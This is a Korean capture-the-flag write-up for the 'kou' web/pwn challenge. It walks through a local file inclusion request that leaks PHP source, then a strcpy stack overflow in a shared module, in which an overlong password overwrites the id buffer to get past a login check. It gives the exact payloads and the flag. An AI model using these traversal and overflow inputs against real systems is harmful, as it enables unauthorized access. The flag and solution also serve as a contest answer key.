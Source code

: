 # TenDollarCTF 3rd - kou

## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

문제 페이지에 들어가면 4개의 메뉴가 존재합니다. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

각각의 메뉴들은 p파라미터로 페이지가 로드됩니다.

`http://web2.tendollar.kr:10101/?p=home`

p 파라미터에다가 php wrapper나 ../와 같은 문자열이 들어갔을때 전부 home으로 이동합니다.

또한 위의 메뉴들을 제외하면 전부 home으로 이동하는 걸로 봐서 whitelist 방식으로 페이지를 로드하는 것 같습니다.

Article메뉴에 들어가면 Secret Data라는 글이 있습니다.

이를 읽으면 You're not admin.이라는 글과 함께 내용이 나오지 않습니다.

글을 요청할때 f 파라미터로써 요청되는 것을 확인할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f 파라미터에 ./, ../를 넣어보면 LFI 취약점이 발생하는 것을 알 수 있으며 이를 통해 index.php와 같은 소스코드를 Leak할 수 있습니다.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

위에 pageList중 중요해 보이는 loginchk를 우선적으로 Leak해보자.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

소스코드를 보면 kou라는 아이디로 로그인이 막혀있는 것을 알 수 있습니다.

그리고 login할때 **login** 함수를 통해 id, pw를 검증하는 것 같은데, 이 함수는 기본 함수가 아니다.

아마 다른 모듈을 통해 해당 함수를 수행하는 것 같다.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

다음으로 view.php를 보면 f로 입력받은 값을 **loadFile**을 통해 내용을 페이지에 뿌려주는 것 같습니다.

**loadFile** 또한 기본 함수가 아니라 다른 모듈에 정의된 함수처럼 보입니다.

f로 kou.so를 요청하면 `loadFile`이나 `login`함수를 가지고 있는 **kou.so**파일을 줍니다.

열어봅시다.

![](./img1.png)

먼저 **loadFile**함수는 fopen을 통해 파일을 여는 함수입니다.

별로 특이한 건 보이지 않으니 **login** 함수를 봅니다.

![](./img2.png)

입력 받은 값을 **loginchk** 함수를 통해 검증합니다.

![](./img3.png)

**loginchk**함수에서는 id롸 pw를 비교하여 값이 같을 때 True를 리턴합니다.

하지만 id는 kou이면서 pw는 1e0c6abede7ff7184c3cefe606f9760a이어야 하는데, loginchk.php에서는 id가 kou가 들어가면 안됩니다.

이 문제의 취약점은 login에 있습니다.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

strcpy를 통해 입력받은 값을 각각 \_id, \_pw를 넣어 놓습니다.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

\_id와 \_pw의 스택을 보면 _pw다음에 _id가 오는것을 볼 수 있습니다.

strcpy를 통해 id를 입력받고 그 후에 pw를 복사합니다만, strcpy는 문자열의 길이를 검사하지 않고 복사합니다.

pw로써 1e0c6abede7ff7184c3cefe606f9760akou를 넣으면 _id에는 kou, _pw는 1e0c6abede7ff7184c3cefe606f9760a가 들어가 정상적으로 로그인 됩니다.

즉, pw를 이용해 overflow를 일으켜 id에 kou를 넣는 것이 가능합니다.

이제 페이지에 로그인할 때 id=a, pw=1e0c6abede7ff7184c3cefe606f9760akou를 넣어주면 로그인에 성공하게 됩니다.

로그인 후에 Article로 이동하여 Secret Data를 읽으면 Flag를 얻을 수 있습니다.

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

